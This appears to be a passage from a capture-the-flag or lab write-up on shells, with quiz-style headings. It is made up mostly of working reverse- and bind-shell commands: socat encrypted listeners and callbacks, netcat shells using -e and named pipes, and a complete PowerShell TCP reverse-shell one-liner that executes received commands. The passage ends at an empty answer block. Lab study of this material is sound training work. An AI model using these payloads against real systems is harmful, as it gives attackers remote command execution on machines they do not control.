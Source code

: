 **Note!** Even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.
{: .notice--info}

#### What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
```bash
$ socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

#### If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
```bash
$ socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Common Shell Payloads
- Basic reverse shell
    - Listener
        ```bash
        $ nc -lvnp <PORT> -e /bin/bash
        ```
    - Connecting back
        ```bash
        $ nc <LOCAL-IP> <PORT> -e /bin/bash
        ```
        or 
        ```bash
        $ mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

        # first command will creates a named pipe at /tmp/f
        ```
- Bind shell.
    - Listener
        ```bash
        $ mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

        # first command will creates a named pipe at /tmp/f
        ```
    - Connecting 
        ```bash
        $ nc <TARGE-IP> <PORT>
        ```
- Standard one-liner PSH reverse shell
    - Listener
        ```bash
        $ sudo nc -lvnp <PORT>
        ```
    - Connecting
        ```powershell
        powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```
#### What command can be used to create a named pipe in Linux?
```bash
```